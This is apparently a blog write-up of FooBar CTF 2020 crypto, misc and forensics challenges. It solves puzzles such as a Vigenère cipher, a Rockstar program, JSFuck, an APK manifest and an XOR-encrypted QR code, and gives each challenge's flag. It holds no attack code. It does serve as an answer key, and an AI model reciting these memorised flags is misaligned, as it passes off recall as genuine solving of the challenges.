

Seeing the challenge title, I thought it was a simple [Caesar cipher](https://en.wikipedia.org/wiki/Caesar_cipher). However, from the french reference in the description, I concluded that the ciphertext was encrypted using the [Vigenere cipher](https://www.geeksforgeeks.org/vigenere-cipher/). I used [gullaba.de](https://www.guballa.de/vigenere-solver) to get the encryption key:



The flag is the key wrapped in GLUG{}

**Flag:** GLUG{ettubrute}

## Happy to see me {#crypto3}



This was a very similar challenge to ArbCrypt from SunshineCTF 2019. I used [this writeup](https://github.com/ozancetin/CTF-Writeups/blob/master/2019/Sunshine-CTF-2019/CRYPTO/README.md) to solve the challenge.



**Flag:** GLUG{arb\_you\_sad\_to\_see_me}

## U cant C me {#misc1}



I honestly don’t know how to explain the solution for this challenge. The flag.txt file contains a sequence of characters. In order to get its corresponding flag character for that sequence, you need to put a paper on your keyboard and draw a line between every 2 adjacent keys that you would push to get that character. For example, ‘uytfcvb’ would become ‘c’, because uyt is a vertical line, ‘tfc’ is a horizontal line and ‘cvb’ is another vertical line.

**Flag:** GLUG{cowisonthetop}

## Rock n Roll Baby {#misc2}



The given file contained some readable words that looked like a song:


yakuhito@furry-catstation:~/ctf/foobar2020/rocknrollbaby$ head -n 13 rolling_rocks 
Glug;s a CTFFFFFFF
my mind is waitin
It;s waitin

Put my mind of Glug into This
my flag is not found
put This into my flag
put my flag into Glug

shout Glug
shout Glug
shout Glug
yakuhito@furry-catstation:~/ctf/foobar2020/rocknrollbaby$



I recognized this to be an esoteric language named [rockstar](https://github.com/RockstarLang/rockstar). I used [this online interpreter](https://codewithrockstar.com/online) to get the script’s output:



Python can be used to convert those numbers into readable text:


yakuhito@furry-catstation:~/ctf/foobar2020/rocknrollbaby$ python
Python 3.6.9 (default, Nov  7 2019, 10:44:02) 
[GCC 8.3.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> a = """114
... 114
... 114
... 111
... 99
... 107
... 110
... 114
... 110
... 48
... 49
... 49
... 51
... 114"""
>>> ''.join([chr(int(x)) for x in a.split("\n")])
'rrrocknrn0113r'
>>> 



**Flag:** GLUG{rrrocknrn0113r}

## Secure app {#misc3}



A .apk file was given. I used [this online decompiler](http://www.javadecompilers.com/apk) to get the Java source code, however, that turned out to be an overkill. The flag was located in the ‘AndroidManifest.xml’ file.


yakuhito@furry-catstation:~/ctf/foobar2020/secureapp$ grep GLUG most-secure_source_from_JADX/resources/AndroidManifest.xml 
        <meta-data android:name="com.google.android.geo.API_KEY" android:value="GLUG{7h15_15_53cur17y_57uff_4pp5}"/>
yakuhito@furry-catstation:~/ctf/foobar2020/secureapp$ 



**Flag:** GLUG{7h15\_15\_53cur17y\_57uff\_4pp5}

## Cant Read This {#misc4}



The given file was too big for me to put here. Basically, it was a JSFuck code. I used [this site](https://enkhee-osiris.github.io/Decoder-JSFuck/) to get the compiled JavaScript code back:



**Flag:** GLUG{this\_code\_was_weird}

## The EXORcist {#forensics1}

The given python file contained a QR code given in binary. I used the following script to turn it into an image:


arr = a.split("\n")

print(len(arr))
print(len(arr[0]))

from PIL import Image

BLOCK = 1
img = Image.new('RGB', (100 * BLOCK, 100 * BLOCK))
for y in range(100):
	for x in range(100):
		if arr[x][y] == "1":
			img.putpixel((x, y), (255, 255, 255))
		else:
			img.putpixel((x, y), (0, 0, 0))

img.show()



After that, I scanned the resulting image with my phone and got the following data:


0f29392b330b5c332e175f5f17175f08170719002418


Judging by the challenge title, I thought that the string probably represents the flag XORed with a key. I knew the flag started with ‘GLUG{‘, so I used python to calculate the key:


yakuhito@furry-catstation:~/ctf/foobar2020/theexorcist$ python
Python 3.6.9 (default, Nov  7 2019, 10:44:02) 
[GCC 8.3.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> from pwn import xor
>>> from Crypto.Util.number import long_to_bytes
>>> enc_flag = long_to_bytes(0x0f29392b330b5c332e175f5f17175f08170719002418)
>>> xor(enc_flag, 'GLUG{')
b'HellHL\x10fil\x18\x13BP$O[R^{cT'
>>> 



I could clearly see the key was ‘Hell’, so I used it to decrypt the flag:


>>> xor(enc_flag, 'Hell')
b'GLUG{n0_fr33_r3d_bull}'
>>> 



**Flag:** GLUG{n0\_fr33\_r3d_bull}

## Life is Hard {#forensics2}



This was, again, very similar to Golly Gee Willikers from SunshineCTF 2019. I followed [this writeup](https://medium.com/ctf-writeups/sunshine-ctf-2019-write-up-c7174c0fb56) to solve it.

**Flag:** GLUG{7h15\_700\_5hall_d13}

## WriteUp Part II

You can find my solutions for the shell category [here](https://blog.kuhi.to/foobarctf_2020_writeup_part_ii).
